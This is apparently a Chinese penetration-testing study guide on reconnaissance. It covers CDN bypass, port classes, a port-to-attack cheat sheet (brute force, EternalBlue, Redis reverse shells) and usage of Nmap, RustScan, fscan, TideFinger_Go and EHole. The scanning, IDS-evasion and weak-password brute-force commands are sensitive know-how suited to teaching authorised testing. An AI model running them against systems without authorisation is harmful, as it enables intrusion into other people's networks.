    - 比如扫描结果显示 22 端口开放，对应的 IP 不是 CDN 节点 IP（CDN 一般不代理 SSH 端口），那这个 IP 就是真实服务器的 IP，直接冲着这个 IP 去渗透，成功率很高。**注意**：有些财大气粗的企业，可能给所有端口都加了 CDN，这时候就需要结合其他方法一起用了。

### 3.端口收集

#### 3.1 常用端口信息

##### 3.1.1 端口介绍

###### 3.1.1.1 IP、端口、服务的关系

> 这块是理解后面所有端口信息的基础

学习端口其实就是在理解：**一台主机如何同时提供不同的网络服务**。

可以这样去记：

- **IP = 这台“房子”在哪儿**
- **端口 = 房子里不同“房间号”**
- **服务 = 每个房间里提供什么功能**





**IP 地址（网络世界定位设备的唯一凭证）**

常规操作里我们用得最多的就是 IPv4：`192.168.1.1`
 IPv6 更大更长，一般内部场景不重点考。

**端口（主机内部区分服务的“编号”）**

端口号共 **0~65535** 个，TCP 和 UDP 各有一套。

实际渗透中常见情况：

- Web 服务一般跑在 **80、443、8080、7001、7002**
- 数据库常见 **3306、1433、1521、27017**
- 远程服务如 **22（SSH）、3389（RDP）**

“看到端口猜服务”是渗透中最基本的能力之一。

**服务示例**

例如：

- IP：`192.168.1.10`
- 端口：`80`
- 服务：Web

访问 `http://192.168.1.10:80` 时，客户端就会和该服务通信。

###### 3.1.1.2 端口分类

**知名端口（0-1023）**

系统级端口，一般跑固定服务。

常见示例：

- 21：FTP 文件传输
- 22：SSH 安全远程连接
- 25：SMTP 邮件发送
- 80：HTTP 网页访问
- 443：HTTPS 加密网页访问

渗透时看到这些端口基本能直接猜服务。

**注册端口（1024-49151）**

常见业务端口，各类数据库也在这个区间。

例如：

- 1433：Microsoft SQL Server
- 1521：Oracle 数据库
- 3306：MySQL 数据库
- 3389：Windows 远程桌面 RDP

大多数安全事件也集中在这个区间。

**动态端口（49152-65535）**

- **由操作系统临时分配，用于客户端与服务端通信**。
- 示例：
  - 用户访问百度（80 端口），本地系统可能分配一个 `51723` 临时端口进行会话。
  - 浏览器关闭后，端口自动释放。

###### 3.1.1.3 端口与协议（TCP/UDP）的关系

- **TCP（传输控制协议）**
  - 面向连接，可靠传输，三次握手。
  - 常见服务：HTTP(80)、HTTPS(443)、SSH(22)、FTP(21)。
- **UDP（用户数据报协议）**
  - 无连接，传输速度快，不保证可靠性。
  - 常见服务：DNS(53)、TFTP(69)、SNMP(161)。

扫描端口时 TCP/UDP 的扫描逻辑不同，UDP 常出现 `open|filtered`。

###### 3.1.1.4 端口状态

Nmap 等扫描工具常用的端口状态：

- **open**：端口开放并有服务监听。
- **closed**：端口关闭，没有服务监听，但主机在线。
- **filtered**：端口被防火墙/过滤，无法确定是否开放。
- **unfiltered**：端口可达，但是否开放未知。
- **open|filtered**：不确定是开放还是被过滤。

渗透时最常见的痛点：**UDP 端口几乎都容易显示 open|filtered**。

##### 3.1.2 常用端口与安全风险

下面是渗透中最常用的端口速查表（建议记住）：

```
21      FTP/TFTP/VSFTPD        → 爆破/嗅探/溢出/后门
22      SSH                    → 爆破/OpenSSH漏洞
23      Telnet                 → 爆破/嗅探/弱口令
25      SMTP                   → 邮件伪造
53      DNS                    → 域传送/劫持/缓存投毒
67/68   DHCP                   → 劫持/欺骗
110     POP3                   → 爆破/嗅探
139     Samba/SMB              → 爆破/未授权/命令执行
143     IMAP                   → 爆破
161     SNMP                   → 爆破/内网信息收集
389     LDAP                   → 注入/未授权/弱口令
445     SMB                    → MS17-010/永恒之蓝
512/513/514 rexec/rlogin       → 爆破/Rlogin 弱认证
873     Rsync                  → 未授权/文件上传
1080    Socket代理             → 爆破
1352    Lotus                  → 爆破/信息泄漏
1433    MSSQL                  → 爆破/注入/SA 弱口令
1521    Oracle                 → 注入/TNS 爆破
2049    NFS                    → 未授权挂载
2181    Zookeeper              → 未授权访问
2375    Docker API             → 未授权访问/容器逃逸
3306    MySQL                  → 爆破/注入
3389    RDP                    → 爆破/shift 后门
4848    GlassFish              → 爆破/认证绕过
5000    Sybase/DB2             → 爆破/注入
5432    PostgreSQL             → 爆破/溢出
5632    pcAnywhere             → 抓密码/代码执行
5900    VNC                    → 爆破/认证绕过
6379    Redis                  → 未授权访问/写 SSH key
7001/7002 WebLogic             → 反序列化/弱口令
80/443  HTTP/HTTPS             → 各类 Web 漏洞/心脏滴血
8069    Zabbix                 → RCE/注入
8161    ActiveMQ               → 弱口令/写文件
8080/8089 Tomcat/Jboss/Resin  → 爆破/PUT 上传/反序列化
8083/8086 InfluxDB             → 未授权访问
9000    FastCGI                → RCE
9090    Websphere              → 爆破/反序列化
9200/9300 ElasticSearch        → 远程代码执行
11211   Memcached              → 未授权访问
27017/27018 MongoDB            → 未授权访问/爆破
```

**考试/面试高频问法：**

- “Redis 未授权可以干什么？”
   → 写 SSH key、写定时任务、反弹 shell
- “MS17-010 属于哪个端口？”
   → SMB → 445
- “常见数据库端口有哪些？”
   → 1433、1521、3306、5432、27017…

#### 3.2 为什么要扫描端口

端口扫描是渗透测试和网络安全分析中最常用的步骤之一，主要目的：

1. 识别存活主机
   - 判断目标主机是否在线，是否能够响应网络请求。
   - 在渗透测试前排除掉无效目标，提高效率。
2. 发现开放端口
   - 探测目标系统中哪些端口处于开放状态。
   - 通过端口可以推测出目标运行的服务类型（如 80/443 → Web 服务，3306 → MySQL）。
3. 识别服务类型与版本
   - 不同的端口对应着不同的服务。（如 80/443 → Web 服务，3306 → MySQL）。
   - 通过端口扫描，可以进一步进行 **服务指纹识别**，确定服务版本。
4. 发现潜在漏洞点
   - 开放的端口和运行的服务可能存在漏洞。
   - 如： FTP（21）、Telnet（23）或Redis（6379），可能意味着存在未授权访问风险。

一句话总结：
 **端口扫描 = 信息收集的核心步骤**。

#### 3.2 常用扫描工具

| 工具             | 特点                                                     | 使用场景                                         |
| ---------------- | -------------------------------------------------------- | ------------------------------------------------ |
| **Nmap**         | 功能最全面，支持端口扫描、服务识别、脚本化探测（NSE）    | 渗透测试标配、服务枚举、漏洞验证                 |
| **Masscan**      | 扫描速度最快，使用异步发送包技术                         | 扫互联网、扫 C 段、资产测绘                      |
| **RustScan**     | 以 **端口探测超快** 为核心，异步扫描 + 自动调用 Nmap     | 想快速爆破开放端口，再交由 Nmap 做版本识别的场景 |
| **fscan**        | 综合内网扫描（端口、服务、漏洞）、C 段与旁站探测，模块化 | 红队内网渗透、横向移动、批量信息收集             |
| **御剑高速扫描** | GUI 工具，简单易用                                       | 小范围快速扫描、渗透打点辅助手段                 |

##### 3.2.1 Nmap

###### 3.2.1.1 Nmap 简介

**Nmap（Network Mapper）** 是最常用的网络扫描与安全审计工具之一，用于快速识别网络资产及其运行状态。其图形界面版本为 **Zenmap**。

**主要功能包括：**

- 主机发现（Host Discovery）
- 端口扫描（Port Scanning）
- 服务与版本识别（Service/Version Detection）
- 操作系统指纹识别（OS Detection）
- 防火墙及 IDS 规则探测
- 基于 NSE 的漏洞检测与信息收集

**适用场景：**

- 网络管理员：资产盘点、端口暴露检查
- 渗透测试人员：前期信息收集、打点
- 安全研究人员：批量服务探测、漏洞验证

###### 3.2.1.2  为什么需要掌握 Nmap？

在渗透测试流程中，**信息收集是所有工作的基础**。
 Nmap 能完成如下任务链：

**存活探测 → 端口扫描 → 服务识别 → 风险分析**

其优势：

- 免费、开源、跨平台
- 功能体系完整，覆盖从探测到漏洞挖掘
- 拥有大量成熟的 NSE 脚本生态

###### 3.2.1.3 扫描目标设定

- 扫描单一主机：

  ```bash
  nmap 192.168.1.1
  ```

- 扫描多个主机：

  ```bash
  nmap 192.168.1.1 192.168.1.2
  ```

- 扫描网段：

  ```bash
  nmap 192.168.1.0/24
  ```

- 从文件读取目标：

  ```bash
  nmap -iL targets.txt
  ```

###### 3.2.1.4 主机发现（Ping 扫描）

用于识别网络中的在线主机。

常用参数：

- `-sn`：仅进行存活探测，不扫描端口
- `-Pn`：跳过主机发现（适用于禁 Ping 环境）

示例：

```bash
nmap -sn 192.168.1.0/24
```

###### 3.2.1.5 端口扫描

用于确定目标主机暴露的服务入口。

常见扫描方式：

- `-sT`：TCP Connect 扫描（可靠但易被检测）
- `-sS`：SYN 半开扫描（最常用，隐蔽性较强）
- `-sU`：UDP 扫描（如 DNS、SNMP）

自定义端口：

```bash
nmap -sS -p 80,443,3306 192.168.1.1
nmap -sS -p- 192.168.1.1     # 全端口扫描
```

###### 3.2.1.6 端口状态说明

- **open**：端口开放，有服务响应
- **closed**：端口关闭，但主机可达
- **filtered**：被防火墙过滤
- **unfiltered**：可访问，但状态不确定
- **open|filtered**：无法区分是否开放

###### 3.2.1.7 服务与版本识别

用于确定端口对应的具体服务及版本号。

```bash
nmap -sV 192.168.1.1
```

常用于判断服务是否存在已知漏洞（如特定版本的 SSH、Apache、MySQL）。

###### 3.2.1.8 操作系统识别

```bash
nmap -O 192.168.1.1
```

通过网络指纹推测目标系统类型。识别准确度受网络环境影响，建议结合其他信息分析。

###### 3.2.1.9 NSE（Nmap Script Engine）

NSE 为 Nmap 提供自动化扩展能力，用于信息收集、漏洞检测、暴力破解等。

脚本常见分类：

- `discovery`：信息探测
- `vuln`：漏洞扫描
- `brute`：弱口令测试

示例：

```bash
nmap --script=vuln 192.168.1.1
nmap --script=http-title 192.168.1.1
```

###### 3.2.1.10 扫描结果导出

- 普通文本输出：`-oN`
- XML 输出：`-oX`
- Grep 输出：`-oG`

示例：

```bash
nmap -oN result.txt 192.168.1.1
```

###### 3.2.1.11 性能与速度控制

- `-T0` ~ `-T5`：扫描速度模板（从最慢到最快）
- `--min-rate`：限制最低扫描速率
- `--max-rate`：限制最高扫描速率

示例：

```bash
nmap -T4 192.168.1.1
```

###### 3.2.1.12 防火墙 / IDS 规避

常用技术：

- 分片扫描：`-f`
- 设置 MTU：`--mtu`
- 伪造源 IP：`--source-ip`
- 伪造 MAC 地址：`--spoof-mac`

目的：绕过简单的流量过滤策略，提高扫描成功率。

###### 3.2.1.13 Nmap 实战示例

**存活探测：**

```bash
nmap -sn 192.168.1.100
```

**快速扫描常见端口：**

```bash
nmap -F 192.168.1.100 #以快速模式扫描 IP 地址为 192.168.1.100 的主机上最常见的 100 个端口
```

**全端口 + 服务识别：**

```bash
nmap -sS -sV -p- -T4 -v 192.168.31.1
```

**漏洞扫描：**

```bash
nmap --script=vuln 192.168.1.100
```



###### 3.2.1.14 常用参数速查表

**1. 基础与输出**

| 参数         | 功能说明             | 示例                             |
| ------------ | -------------------- | -------------------------------- |
| `-v` / `-vv` | 显示更多扫描过程信息 | `nmap -vv 192.168.1.1`           |
| `-iL`        | 从文件导入目标列表   | `nmap -iL targets.txt`           |
| `-p`         | 指定端口或端口范围   | `nmap -p 22,80,443` / `nmap -p-` |
| `-oN`        | 输出到普通文本文件   | `nmap -oN result.txt`            |
| `-oX`        | 输出为 XML           | `nmap -oX result.xml`            |
| `-oG`        | 输出为 Grepable 格式 | `nmap -oG result.gnmap`          |

**2. 主机发现（Host Discovery）**

| 参数  | 功能说明               | 示例                         |
| ----- | ---------------------- | ---------------------------- |
| `-sn` | Ping 扫描，不扫描端口  | `nmap -sn 192.168.1.0/24`    |
| `-Pn` | 跳过主机发现，直接扫描 | `nmap -Pn 192.168.1.1`       |
| `-PS` | TCP SYN Ping           | `nmap -PS80,443 192.168.1.1` |
| `-PA` | TCP ACK Ping           | `nmap -PA80 192.168.1.1`     |
| `-PE` | ICMP Echo Ping         | `nmap -PE 192.168.1.1`       |
| `-PP` | ICMP Timestamp Ping    | `nmap -PP 192.168.1.1`       |

**3. 扫描方式（Scan Techniques）**

| 参数  | 功能说明                   | 示例                   |
| ----- | -------------------------- | ---------------------- |
| `-sS` | SYN 半开扫描（最常用）     | `nmap -sS 192.168.1.1` |
| `-sT` | TCP 全连接扫描             | `nmap -sT 192.168.1.1` |
| `-sU` | UDP 扫描                   | `nmap -sU 192.168.1.1` |
| `-sA` | ACK 扫描（探测防火墙规则） | `nmap -sA 192.168.1.1` |
| `-sN` | Null 扫描                  | `nmap -sN 192.168.1.1` |
| `-sF` | FIN 扫描                   | `nmap -sF 192.168.1.1` |
| `-sX` | Xmas 扫描（FIN/URG/PSH）   | `nmap -sX 192.168.1.1` |
| `-sW` | TCP Window 扫描            | `nmap -sW 192.168.1.1` |
| `-sM` | Maimon 扫描                | `nmap -sM 192.168.1.1` |

**4. 服务识别 / 操作系统检测**

| 参数                  | 功能说明                 | 示例                             |
| --------------------- | ------------------------ | -------------------------------- |
| `-sV`                 | 服务与版本识别           | `nmap -sV 192.168.1.1`           |
| `--version-intensity` | 服务识别强度（0–9）      | `nmap -sV --version-intensity 9` |
| `-O`                  | 操作系统识别             | `nmap -O 192.168.1.1`            |
| `--osscan-limit`      | 限制只扫描可能识别的主机 | `nmap -O --osscan-limit`         |
| `--osscan-guess`      | 强制猜测 OS              | `nmap -O --osscan-guess`         |

**5. NSE 脚本引擎**

| 参数            | 功能说明     | 示例                                                  |
| --------------- | ------------ | ----------------------------------------------------- |
| `--script`      | 指定加载脚本 | `nmap --script=vuln 192.168.1.1`                      |
| `--script-help` | 查看脚本说明 | `nmap --script-help=http-title`                       |
| `--script-args` | 给脚本传参   | `nmap --script=http-brute --script-args userdb=u.txt` |

**6. 性能优化（Timing & Performance）**

| 参数           | 功能说明                     | 示例                               |
| -------------- | ---------------------------- | ---------------------------------- |
| `-T0`~`-T5`    | 扫描速度模板（0最慢，5最快） | `nmap -T4 192.168.1.1`             |
| `--min-rate`   | 设置最小包发送速率           | `nmap --min-rate 1000 192.168.1.1` |
| `--max-rate`   | 设置最大包发送速率           | `nmap --max-rate 100 192.168.1.1`  |
| `--scan-delay` | 每个探测包之间的延迟         | `nmap --scan-delay 1s 192.168.1.1` |

**7. 防火墙规避与欺骗（Evasion）**

| 参数            | 功能说明                   | 示例                                   |
| --------------- | -------------------------- | -------------------------------------- |
| `-f`            | 数据包分片（规避检测）     | `nmap -f 192.168.1.1`                  |
| `--mtu`         | 设置数据包大小（8 的倍数） | `nmap --mtu 24 192.168.1.1`            |
| `--source-port` | 伪造源端口                 | `nmap --source-port 53 192.168.1.1`    |
| `--source-ip`   | 伪造源 IP                  | `nmap --source-ip 1.2.3.4 192.168.1.1` |
| `--spoof-mac`   | 伪造 MAC 地址              | `nmap --spoof-mac 0 192.168.1.1`       |

**8. 常用组合示例（便于速查）**

| 场景              | 命令示例                                          |
| ----------------- | ------------------------------------------------- |
| 全端口 + 服务识别 | `nmap -sS -sV -p- 192.168.1.100`                  |
| 存活探测          | `nmap -sn 192.168.1.0/24`                         |
| 漏洞脚本扫描      | `nmap --script=vuln 192.168.1.100`                |
| 深度扫描（常用）  | `nmap -sS -sV -O -p- --script=vuln 192.168.1.100` |

##### 3.2.2 **RustScan**

###### 3.2.2.1 工具概述

RustScan （https://github.com/bee-san/RustScan）是一款以**高速端口扫描**为核心目标的现代化扫描工具，使用 Rust 编写，具备极高的并发性能与较低的系统资源占用。其主要功能是快速发现开放端口，并可在扫描结束后自动调用 Nmap 进行服务识别，从而形成“快速探测 + 深度识别”的扫描流程。

###### 3.2.2.2 工具特点

- **极高速度**：在高并发模型下可实现毫秒级端口探测，扫描全端口耗时远低于传统工具。
- **自动集成 Nmap**：支持在发现开放端口后自动调用 Nmap 进行服务探测、脚本扫描等。
- **资源占用低**：使用 Rust 异步编程模型，CPU 与内存占用相对稳定。
- **支持跨平台**：提供 Linux、macOS、Windows 版本。
- **可配置性强**：支持批量 IP、端口范围、超时时间、脚本化等参数设置。

###### 3.2.2.3 基本用法示例

**（1）基础扫描（快速探测开放端口）**

```bash
rustscan -a 192.168.1.10
```

**（2）扫描后自动调用 Nmap（默认行为）**

RustScan 会在发现开放端口后自动执行：

```bash
nmap -p <开放端口> 192.168.1.10
```

如需手动指定 Nmap 参数：

```bash
rustscan -a 192.168.1.10 -- -sV -sC
```

`--` 之后的内容均会被传递给 Nmap。

**（3）批量扫描多个目标**

```bash
rustscan -a 192.168.1.0/24
```

**（4）指定扫描端口范围**

```bash
rustscan -a 192.168.1.10 -p 1-65535
```

**（5）调整扫描速率（并行度）**

```bash
rustscan -a 192.168.1.10 --ulimit 5000
```

**（6）输出为 Nmap 格式（XML、Grepable 等）**

```bash
rustscan -a 192.168.1.10 -- -oA result
```

###### 3.2.2.4 RustScan 与传统扫描工具的定位区别

- **Masscan**：适合大范围互联网扫描，但不能自动进行服务识别。
- **Nmap**：识别全面但速度较慢。
- **RustScan**：介于两者之间，适合在渗透测试中快速定位开放端口并与 Nmap 配合完成深度探测。

###### 3.2.2.5 适用场景

- 快速识别目标主机的开放端口
- 内外网多主机批量探测
- 渗透测试初期的资产信息收集
- 与 Nmap 联合使用的高效率扫描流程

##### 3.2.3 fscan

###### 3.2.3.1 工具概述

fscan 是一款面向渗透测试场景的 **内网综合扫描工具**，集成端口扫描、服务识别、弱口令爆破、基础漏洞探测、存活探测、C 段及旁站发现等多项功能，适合在信息收集阶段对已获取的主机资产进行快速、自动化分析。
 相较于仅进行端口探测的传统扫描工具，fscan 能在一次任务中完成更全面的威胁面识别，是红队攻防演练和内网渗透测试常用工具。

###### 3.2.3.2 工具特点

- **综合能力强**：集成存活探测、端口扫描、协议识别、弱口令/漏洞扫描等多功能。
- **批量处理能力优秀**：支持对大量 IP、IP 段进行自动化扫描与分析。
- **多协议识别**：支持 HTTP、SMB、RDP、FTP、SSH、MySQL、MSSQL 等多种常用服务。
- **内网定位精准**：能够识别旁站、C 段资产，适合横向移动场景。
- **输出结果丰富**：可输出端口信息、服务信息、登录结果、漏洞提示等内容。
- **可扩展性强**：支持自定义 POC，便于在攻防演练中拓展功能。

###### 3.2.3.3 典型使用场景

在已收集大量主域名、子域名并整理出目标 **IP 列表（ip.txt）** 后，端口扫描成为发现隐蔽资产的重要步骤。
 由于许多组织会在单台服务器上开放多个端口部署多个 Web 或业务系统，因此进行 **全端口扫描** 能显著扩大攻击面，找到更多入口。
 fscan 在此阶段能同时做到：

- 发现所有开放端口
- 识别端口对应服务
- 自动检测基础弱点
- 进行常见弱口令爆破
- 识别旁站和 C 段资产扩散

适合在资产梳理后的深度探测阶段使用。

###### **3.2.3.4 基本用法示例**

**（1）单个主机快速扫描（默认常见端口）**

无需参数的情况下，fscan 会自动扫描常用端口并识别服务。

```bash
fscan.exe -h 192.168.1.10
```

**（2）扫描 C 段或网段资产**

fscan 支持自动发现存活主机并进行对应的服务探测。

```bash
fscan.exe -h 192.168.1.1/24
```

**（3）存活探测（仅探测存活 + 仅 ping）**

适合在大量 IP 中快速筛选可通信主机。

```bash
fscan.exe -h 192.168.1.0/24 -ping -nopoc -nobr
```

**（4）Web 服务识别与标题获取**

fscan 会自动提取 Web Title、状态码等基础信息。

```bash
fscan.exe -h 192.168.1.0/24 -p 80,443,8080,8443
```

**（5）关闭弱口令爆破**

fscan 默认会自动进行弱口令爆破，支持 SSH、RDP、FTP、MySQL、MSSQL、Redis 等常见协议的弱口令探测。

可以用参数关闭爆破：

```bash
fscan.exe -h 192.168.1.0/24 -nobr
```

或指定用户密码字典爆破：

```
fscan.exe -h 192.168.1.1-255 -userf users.txt -pwdf pass.txt
```

**（6）常见漏洞识别（MS17010、WebLogic、Tomcat 等）**

默认情况下 fscan 会针对常见漏洞进行基础检测，可以用参数关闭：

```bash
fscan.exe -h 192.168.1.0/24 -nopoc
```

**（7）只输出开放端口信息**

适合仅做端口收集用途。

```bash
fscan.exe -h 192.168.1.0/24 -nopoc -nobr
```

**（8）对已整理的 `ip.txt` 进行全端口扫描**

```bash
fscan.exe -hf ip.txt -t 3000 -p 1-65535 -num 100 -np -o result.txt
```

各参数说明：

- `-hf ip.txt`：指定目标 IP 列表
- `-t 3000`：设置超时时间（毫秒）
- `-p 1-65535`：扫描全端口
- `-num 100`：并发线程数
- `-np`：不显示进度条（速度更快）
- `-o result.txt`：输出结果至文件

全端口扫描时间较长，尤其是目标规模较大时，建议在 **海外 VPS** 后台运行，以降低时间成本并减少干扰。

**（9）扫描结果整理**

fscan 的默认输出内容较为丰富但不够结构化，不利于后续数据分析。
 可使用辅助脚本 `fscanOutput.py（fscanoutput：https://github.com/ZororoZ/fscanOutput）` 对扫描结果进行分类整理：

```bash
python fscanOutput.py result.txt
```

整理后可按服务类型、端口类型等分组，便于进一步分析 Web 服务、远程登录点、数据库服务、弱口令情况等。

###### 3.2.3.5 适用领域

- 内网渗透测试与横向移动
- 红队攻防演练资产识别
- 大规模端口与服务扫描
- 弱口令与基础漏洞探索
- C 段、旁站资产扩展
- 多协议服务自动识别与分类

##### 3.2.4 御剑高速TCP端口扫描工具



## 五、资产梳理阶段

在收集了子域名、IP、端口等大量资产后，我们需要进一步判断：

- 哪些资产是**存活的**
- 每个资产对应的**技术栈、CMS、中间件类型**
- 哪些系统更有利用价值（如 OA、VPN、CMS 等）

因此，本阶段分为两个核心步骤：

① **存活探测**
② **指纹识别（识别 CMS、服务、框架）**

### 5.1 指纹识别基础知识

#### **5.1.1 什么是 Web 指纹？**

**Web 指纹（Website Fingerprint）** 是通过识别网站的：

- Web 服务器类型（Nginx/Apache/IIS）
- 开发语言（PHP/Java/.NET/Node）
- CMS 系统（WordPress、织梦、泛微 OA 等）
- 中间件（Weblogic、Jboss）
- 技术框架（Vue、React、JQuery）
- 特征文件/目录



对网站进行分类和判断的技术。

其核心作用：

- 快速了解目标系统结构
- 判断潜在漏洞点
- 从大量资产中优先定位“高价值目标”

#### **5.1.2 CMS 基础知识**

CMS（Content Management System）：一种管理网站内容的系统。
 常见 CMS：

```企业网站系统：MetInfo(米拓)、蝉知、SiteServer
B2C商城系统：商派shopex、ecshop、hishop、xpshop
门建站系统：DedeCMS(织梦)、帝国CMS、PHPCMS、动易、cmstop
博客系统：wordpress、Z-Blog
论坛社区：discuz、phpwind、wecenter
问题系统：Tipask、whatsns
知识百科系统：HDwiki
B2B门户系统：destoon、B2Bbuilder、友邻B2B
人才招聘网站系统：骑士CMS、PHP云人才管理系统
房产网站系统：FangCms
在线教育建站系统：kesion(科汛)、EduSoho网校
电影网站系统：苹果cms、ctcms、movcms
小说文学建站系统：JIEQI CMS、linhuaming
```

CMS 是漏洞高发地带，因此识别 CMS 可以帮助我们：

✔ 快速锁定历史漏洞（Nday）
✔ 快速提升打点效率

#### 5.1.3 CMS / 指纹识别的方法

##### **5.1.3.1 在线识别**

潮汐指纹识别： [**http://finger.tidesec.net/**](http://finger.tidesec.net/)



**WhatWeb**： [**https://whatweb.net/**](https://whatweb.net/)

**BugScaner**： [**http://whatweb.bugscaner.com/look**](http://whatweb.bugscaner.com/look)

##### **5.1.3.2 本地批量识别**

主要依赖工具：

##### 工具1--Ehole：

https://github.com/EdgeSecurityTeam/EHole EHole是一款对资产中重点系统指纹识别的工具，在红队作战中，信息收集是必不可少的环节，如何才能从大量的资产中提取有用的系统(如OA、VPN、Weblogic…)。EHole旨在帮助红队人员在信息收集期间能够快速从C段、大量杂乱的资产中精准定位到易被攻击的系统，从而实施进一步攻击。

##### 工具2--TideFinger_Go：

https://github.com/TideSec/TideFinger_Go

##### 工具3--WhatWeb（kali集成了该工具）：

https://github.com/urbanadventurer/WhatWeb

##### 工具4--Finger：

https://github.com/EASY233/Finger 一款红队在大量的资产中存活探测与重点攻击系统指纹探测工具。

------

##### **5.1.3.3 手动识别方法（面试常问）**

**① 观察 HTTP 响应头**

如：

- `X-Powered-By`
- `Server`
- `Set-Cookie`

例如：

```
Set-Cookie: DedeUserID=1
X-Powered-By: ThinkPHP
```

可以直接判断 CMS 或框架。

**② 查看 HTML 页面特征**

- `<meta name="generator">`
- 页面标题（title）
- 特殊目录（比如 `/wp-content/`）

**③ 查找特征性目录和文件**

WordPress：

```
/wp-admin/
/wp-content/
/wp-includes/
```

Discuz：

```
/uc_server/
/static/js/common.js
```

##### **5.1.3.4 插件识别（最方便）**

Wappalyzer是一款功能强大且非常实用的Chrome网站技术分析插件，通过该插件能够分析目标网站所采用的平台构架、网站环境、服务器配置环境、JavaScript框架、编程语言、中间件架构类型等参数，还可以检测出CMS的类型。

项目地址：https://www.wappalyzer.com/



识别：

- CMS
- 后端框架
- CDN
- JavaScript 库
- Web 服务器
- 技术栈
- 版本号

适合浏览器访问时快速判断站点类型。

### **5.2 指纹识别工具的使用**

有了知识基础后，我们再来看如何用工具迅速识别资产。

#### **5.2.1 TideFinger**

##### 5.2.1.1TideFinger_Go 概述

**TideFinger_Go** 是由 TideSec 团队开发的一款 **Go 语言实现的指纹识别工具**，用于对 Web 服务、主机服务、CMS、框架等进行批量识别／探测。相比旧版的 Python 实现（TideFinger），TideFinger_Go 在**性能和指纹覆盖率**方面做了较大提升。

**关键优势**：

- 内置超过 **2.3 万条指纹**，覆盖 Web 服务、CMS、中间件、常见框架及非 Web 服务。
- 支持对 **大量 URL / IP / 网段** 的批量探测，效率高、并发友好。
- 可同时做“存活 + 指纹 + 服务识别 + POC 检测 / 弱口令检测”（类似综合扫描工具）
- 输出结果能自动对已知 CMS/框架/中间件用“红色”高亮，方便快速定位高价值目标。

**适用场景**：

- 批量资产梳理后的存活 + 指纹识别
- 渗透测试前的信息收集阶段
- 红队 / 攻防演练中快速定位可能存在的 Web 漏洞系统
- 在海量 IP / URL 中筛选高价值目标（CMS、VPN、OA、Web 系统等）

##### 5.2.1.2 功能 & 特性（模块化）

TideFinger_Go 支持以下功能／模块（部分为默认启用）：

| 功能                               | 说明                                                         |
| ---------------------------------- | ------------------------------------------------------------ |
| Web / 服务 / CMS / 中间件 指纹识别 | 识别 Web 服务、CMS、框架、中间件、数据库服务等               |
| 存活 & 端口 / 服务 探测            | 对目标 IP / URL 探测是否响应、端口是否开放、服务 Banner 收集等 |
| 批量 / 并发扫描                    | 支持对 URL 列表、IP 列表、网段等批量扫描，利用 Go 并发机制提高速度 |
| POC 检测 & 弱口令检测              | 能在识别出服务后尝试已知 POC 或弱口令检测（默认开启 / 可关闭） |
| 输出结果聚合 & 高亮                | 对识别出的 CMS/服务/漏洞进行高亮显示，方便快速筛查           |
| 多种输入方式支持                   | 支持单 URL/IP，也支持文件/列表输入、多种格式（IP, IP-range, URL 等） |

##### 5.2.1.3 使用方法（基础示例）

假设有一个资产列表 `web.txt`（每行一个 URL 或 IP:PORT），基本使用示例：

```bash
# 对 ip 网段进行 HTTP 服务指纹 + 探测（80 端口），不 ping、不爆破、不 poc
TideFinger_Go -h 192.0.0.1/24 -p 80 -np -nobr -nopoc

# 对 URL 列表进行指纹识别，不使用默认 POC/爆破，对每个请求超时 120 秒
TideFinger_Go -uf url.txt -np -nobr -nopoc -pt 120

# 对单个 URL 进行指纹 + poc 检测，并显示 poc 的详细请求/响应数据
TideFinger_Go -u http://www.example.com -pd
```

> 注：`-h` / `-uf` / `-u` 分别对应 “IP / IP-range / URL 列表 / 单 URL” 输入方式。

命令行参数说明（部分）：

- `-p`：指定端口或端口列表／范围
- `-np`：不使用 ping（跳过 ping 探测）
- `-nobr`：不进行弱口令爆破
- `-nopoc`：不进行 POC 漏洞检测
- `-pt <秒>`：设置请求超时时间

##### 5.2.1.4 注意事项 

- 虽然整合了 >2.3 万条指纹，但仍可能漏掉较冷门／自定义 CMS／框架 —— **必要时需配合手动判断或其他工具**。
- 默认开启弱口令 + POC 检测，若目标为高价值靶标，建议首先使用 `-nopoc -nobr` 仅做指纹 + 存活探测，再决定是否进一步攻击。
- 对大规模 IP / URL 进行爆破 / 漏洞检测时，对目标压力大，建议使用限速、代理、分批扫描，并确保合法授权。
- 输出结果建议保存并进一步使用脚本／手动分析，以便归类、筛选高价值目标。

#### **5.2.2 EHole**

##### 5.2.2.1 工具简介

- EHole 是一款用于 **资产指纹识别 / 重点系统定位** 的工具，全称为 “棱洞（EHole）3.0” 。
- 其设计目的：在 **大量杂乱资产（IP、域名、URL）** 中，**快速定位对红队 / 渗透测试有价值的系统**，例如 OA、VPN、中间件（Weblogic、Jboss 等）、CMS／Web 服务等。
- EHole 支持多平台（Windows／Linux／macOS），使用 Go 语言编写，开源于 GitHub。

#####  5.2.2.2 功能与特点

| 功能 / 特性            | 描述                                                         |
| ---------------------- | ------------------------------------------------------------ |
| **重点系统指纹识别**   | 识别常见 OA、VPN、Web 服务、CMS、中间件等，定位高价值目标。  |
| **批量/自动化处理**    | 支持从文件读取 URL / IP 列表，也支持 FOFA／Hunter API 批量资产获取并识别。 |
| **多种输入方式**       | 支持本地文件列表、单 URL、IP 段／IP 列表、FOFA 语法搜索等灵活输入。 |
| **识别方式多样**       | 支持关键字匹配（body / header）、favicon hash、正则 / 多种指纹方式，指纹库可识别多个系统 / CMS。 |
| **高亮 & 输出友好**    | 支持颜色高亮识别结果、JSON / XLSX 等格式输出，方便后续分析整理。 |
| **快速定位高价值目标** | 针对 OA、VPN、Weblogic、CMS 等常见弱点高发系统，便于红队快速锁定突破点。 |

#####  5.2.2.3 使用方式（基础示例）

EHole 的核心功能通过子命令 **`finger`** 实现，用于对目标资产进行指纹识别。以下为常用参数及实际用法说明。

**常用参数说明（核心子命令：`finger`）**

| 参数              | 说明                                            |
| ----------------- | ----------------------------------------------- |
| **-u / --url**    | 针对单个目标 URL/IP 进行识别                    |
| **-l / --local**  | 从本地文件批量加载目标进行识别                  |
| **-o / --output** | 识别结果输出到文件，支持 `.json` / `.xlsx`      |
| **-t / --thread** | 设置并发线程数（默认 100）                      |
| **-p / --proxy**  | 指定代理（HTTP / SOCKS5），用于出网或隐蔽性扫描 |
| **-f / --fip**    | 使用 FOFA，以 **IP/CIDR** 方式提取资产后再识别  |
| **-s**            | 使用 FOFA 语法主动搜索资产并识别                |

**FOFA 使用说明**

FOFA 相关功能需要在 `config.ini` 中配置：

```
email = xxx@xxx.com
key = fofa_api_key
```

配置完成后，`-f` 和 `-s` 才可正常使用。

**常见使用场景及示例**

（1）单目标识别（适合快速验证 / 单点测试）

```bash
